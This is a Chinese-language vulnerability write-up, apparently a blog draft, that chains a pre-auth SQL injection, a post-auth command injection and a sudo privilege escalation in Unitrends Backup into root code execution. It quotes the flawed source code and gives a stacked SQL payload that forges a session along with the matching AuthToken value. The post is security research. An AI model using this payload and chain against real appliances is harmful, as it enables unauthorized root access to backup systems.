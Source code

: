 ```yaml
---
draft: true
title: "Unitrends backup pre-auth RCE"
date: 2024-09-20T09:10:24+08:00
tags: ["rce", "unitrends"]
---
```


三个漏洞组合成的认证前root rce，做个小记录

### 认证前SQLI（有条件）

在文件 `/grid/config/request.php` 中

```php
<?php

/* If this script has PHP errors, bail out */
error_reporting(-1);
ini_set("display_errors", 1);
ini_set("html_errors", 0);

libxml_use_internal_errors(true);
$str = file_get_contents('php://input');
if (isset($str)) {
	$xml = simplexml_load_string($str);
	if (!$xml) {
		echo "Failed: ill-formed XML.\n";
		libxml_clear_errors();
		exit(1);
	}
	else {
		$ret = process_request($str);
		if ($ret === false) {
			$msg = bp_error();
			echo "$msg";
			exit(1);
		}
		else {
			echo "Success: $ret";
			exit(0);
		}
	}
}
else {
	echo "Error: Invalid request.";
	exit(1);
}

?>
```

`$_POST` 完全可控，经xml解析后直接传入 `process_request`，这是个扩展函数，扩展位于 `/usr/lib64/php/modules/bpl.so`，在扩展中会重新dlopen `/usr/lib64/lobbpext.so.1`，在二进制中找到函数 `process_request`
 
![](/img/unitrends-pre-auth-rce/1.png)

其中 `hostname_value`、`identity_value` 与 `asset_tag_value` 都是从xml中取出来的数据，`pgVExec` 是执行的原生sql并没有使用参数绑定，存在SQL注入

![](/img/unitrends-pre-auth-rce/2.png)

> 前置条件

在取xml的值之前，会有一次条件判断

![](/img/unitrends-pre-auth-rce/3.png)

`cmc_openvpn server confirm` 必须为 `true`，命令实现为

```bash
function confirm
{
	test -f ${KEYS_DIR}/dh2048.pem &&
	test -f ${OPENVPN_DIR}/bin/updateCRL &&
	test -f ${OPENVPN_DIR}/crl.pem &&
	test -f ${OPENVPN_DIR}/inbound.conf &&
	test -f ${KEYS_DIR}/ca.key &&
	test -f ${KEYS_DIR}/ca.crt
	
	return $?
}

case $1 in
	server)
		if [ $# -eq 2 -a "$2" = confirm ]
		then
			confirm
			if [ $? -eq 0 ]
			then
				echo -n "true"
			else
				echo -n "false"
			fi
			exit 0
```

这里可以通过post一个单节点空内容的xml来判断是否可以做攻击

### 认证后命令注入

在 `api/includes/systems.php` 中的 `update` 函数中，有一个switch分支

```php
case 'add-management':
	if (is_numeric($which) && $which > 0) {
		$data['id'] = (int)$which;
	}
	$system = $this->BP->get_system_info($data['id']);
	if ($system !== false) {
		//$credentialCheck = $this->hasValidCredentials($system['name'], $data['credentials']['username'], $data['credentials']['password']);
		$credentialCheck = $this->functions->grantManagementToLocalSystem($system['name'], $data['credentials']['username'], $data['credentials']['password']);
		if ($credentialCheck === true) {
			$status = $this->BP->add_mgmt_to_replication_source($system['id']);
		} else {
			$status = array('error' => 500, 'message' => $credentialCheck);
		}
	} else {
		$status = array('error' => 500, 'message' => 'System with this id was not found.');;
	}
	break;
```

 `$data` 的值为 `json_decode(file_get_contents("php://input"))` 完全可控，其中 `credentials` 带入了 `grantManagementToLocalSystem` 函数中，函数定义在 `api/includes/function.lib.php`
	
> 这里必须有一个存在的 `$system` 的值，这个值是从数据库中获取，一般都会存在一个，id为1

```php
public function grantManagementToLocalSystem($ip, $username, $password) {
	$granted = true;
	$localHostInfo = $this->BP->get_hostname();
	if ($localHostInfo !== false) {
		$host = $localHostInfo['name'];
		$grantCommand = sprintf("/usr/bp/bin/rungrant.php  '%s'  '%s'  '%s'  '%s'", $ip, $username, $password, $host);
	  //  global $Log;
	  //  $Log->writeVariable("command is " . $grantCommand);
		exec($grantCommand, $outputArray, $returnValue);
		// if $returnValue is 0, okay, leave $granted as true.
		if ($returnValue !== 0) {
			$granted = implode("\n", $outputArray);
		}
	} else {
		$granted = "Could not determine local appliance host name.";
	}
	return $granted;
}
```

由于 `$username` 和 `$password` 可控，并且直接带入了命令字符串中，造成命令注入

### 提权

在 `/etc/sudoers` 中可以看到针对apache有一些规则

```
Defaults:apache targetpw, timestamp_timeout=0
apache  ALL = NOPASSWD:  /usr/bp/bin/footprintReportUtil, \
                        /var/www/html/grid/portal/rflr_manage.php, \
                       /usr/bp/bin/cmc_restrict_ports, \
              PASSWD: /usr/bin/passwd, \
                      /sbin/shutdown, \
                      /bin/bash, \
                      /usr/bin/whoami
postgres ALL=(root) NOPASSWD: /usr/bp/bin/elk/elk_job_handler.sh,/usr/bp/bin/elk/elk_alert_handler.sh
```

跟进 `/grid.portal/rflr_manage.php` ，这是一个只能在cli下运行的php文件

```php
$options = getopt($shortopts, $longopts);
foreach (array_keys($options) as $opts) switch ($opts) {
  case 'create_zip':
    $createZip = true;
    $start_dir = (isset($options['create_zip']) ? $options['create_zip'] : '');
    $opt++;
  break;

else if ($createZip === true) {
  $result = doCreateZip($start_dir, $zipDelFiles);
}

function doCreateZip($startDir, $deleteAfterZip)
{
  global $log;
  global $zipBaseDir;
  global $debug;

  $func = "doCreateZip()";
  fprintf($log, "%s, %s\n", $func, $startDir);

  $zipDir = "$startDir";
  if ($debug) { fprintf($log, "%s, startDir: %s\n", $func, $zipDir); }

  $zipDir  = (substr($zipDir, 0, 1) == '/' ? $zipDir : '/'.$zipDir);
  $zipDir .= (substr($zipDir, -1,1) == '/' ? '' : '/');

  if ($debug) { fprintf($log,"%s, zipDir: %s\n", $func, $zipDir); }
  # define the zip file
  $zipFileName = "Unitrends-Restore" . rand(0, 999) . ".zip";
  $zipFileFull = $zipDir . $zipFileName;

  if (!isset($zipDir) || !strstr($zipDir, $zipBaseDir)) {
    fprintf(STDERR, "Starting directory is not allowed!");
    exit(1);
  }

  $cmd = "cd $zipDir; find . ! -type l | zip -0 $zipFileFull -@ > /dev/null 2>&1";
  if ($debug) { fprintf($log,"%s, find filelist and create zip cmd: %s\n", $func, $cmd); }
  system($cmd, $res);
```

传入参数 `create_zip` 经过一些目录处理后，直接带入了 `$cmd` 字符串，之后直接使用 `system` 执行，造成命令注入，所以可以在 `apache:apache` 下使用sudo运行这个文件，在 `create_zip` 参数中写入高权限命令，即可完成提权，需要注意的是这里有一个判断，不然会exit掉

```php
if (!isset($zipDir) || !strstr($zipDir, $zipBaseDir))
```

`$zipBaseDir = "_rflr"`，也就是说命令字符串中需要包含这个，随便构造一下即可 

![](/img/unitrends-pre-auth-rce/4.png)

### 利用

由于注入点可以堆叠，所以可以考虑直接向数据库写数据，这里的表结构中存在一张sessions表，判断用户登录也是先从header的authtoken中取出uuid进行比较，所以可以直接堆叠写入一个不过期的session

```
1234';insert into sessions(user_id,uuid,expiration) values(1,'aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa',9999999999);--
```

之后伪造一次 cookie

```
base64_encode("v0:aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa:1")
djA6YWFhYWFhYWEtYWFhYS1hYWFhLWFhYWEtYWFhYWFhYWFhYWFhOjE=
```

这个值就可以作为认证后的AuthToken头使用，此时拥有了访问认证后功能的能力

![](/img/unitrends-pre-auth-rce/5.png)

之后就可以使用认证后命令注入，配合提权直接使用root权限进行命令执行

![](/img/unitrends-pre-auth-rce/6.png)
